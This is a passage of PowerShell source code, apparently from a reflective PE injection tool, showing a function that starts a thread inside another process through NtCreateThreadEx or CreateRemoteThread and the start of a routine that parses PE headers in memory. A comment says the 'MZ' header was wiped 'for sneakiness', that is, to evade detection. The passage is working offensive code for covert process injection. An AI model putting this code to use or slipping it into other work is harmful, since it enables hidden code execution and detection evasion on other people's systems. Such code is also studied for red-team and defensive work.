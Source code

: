 		[IntPtr]$RemoteThreadHandle = [IntPtr]::Zero
		
		$OSVersion = [Environment]::OSVersion.Version
		#Vista and Win7
		if (($OSVersion -ge (New-Object 'Version' 6,0)) -and ($OSVersion -lt (New-Object 'Version' 6,2)))
		{
			Write-Verbose "Windows Vista/7 detected, using NtCreateThreadEx. Address of thread: $StartAddress"
			$RetVal= $Win32Functions.NtCreateThreadEx.Invoke([Ref]$RemoteThreadHandle, 0x1FFFFF, [IntPtr]::Zero, $ProcessHandle, $StartAddress, $ArgumentPtr, $false, 0, 0xffff, 0xffff, [IntPtr]::Zero)
			$LastError = [System.Runtime.InteropServices.Marshal]::GetLastWin32Error()
			if ($RemoteThreadHandle -eq [IntPtr]::Zero)
			{
				Throw "Error in NtCreateThreadEx. Return value: $RetVal. LastError: $LastError"
			}
		}
		#XP/Win8
		else
		{
			Write-Verbose "Windows XP/8 detected, using CreateRemoteThread. Address of thread: $StartAddress"
			$RemoteThreadHandle = $Win32Functions.CreateRemoteThread.Invoke($ProcessHandle, [IntPtr]::Zero, [UIntPtr][UInt64]0xFFFF, $StartAddress, $ArgumentPtr, 0, [IntPtr]::Zero)
		}
		
		if ($RemoteThreadHandle -eq [IntPtr]::Zero)
		{
			Write-Verbose "Error creating remote thread, thread handle is null"
		}
		
		return $RemoteThreadHandle
	}

	

	Function Get-ImageNtHeaders
	{
		Param(
		[Parameter(Position = 0, Mandatory = $true)]
		[IntPtr]
		$PEHandle,
		
		[Parameter(Position = 1, Mandatory = $true)]
		[System.Object]
		$Win32Types
		)
		
		$NtHeadersInfo = New-Object System.Object
		
		#Normally would validate DOSHeader here, but we did it before this function was called and then destroyed 'MZ' for sneakiness
		$dosHeader = [System.Runtime.InteropServices.Marshal]::PtrToStructure($PEHandle, [Type]$Win32Types.IMAGE_DOS_HEADER)

		#Get IMAGE_NT_HEADERS
		[IntPtr]$NtHeadersPtr = [IntPtr](Add-SignedIntAsUnsigned ([Int64]$PEHandle) ([Int64][UInt64]$dosHeader.e_lfanew))
		$NtHeadersInfo | Add-Member -MemberType NoteProperty -Name NtHeadersPtr -Value $NtHeadersPtr
		$imageNtHeaders64 = [System.Runtime.InteropServices.Marshal]::PtrToStructure($NtHeadersPtr, [Type]$Win32Types.IMAGE_NT_HEADERS64)
		
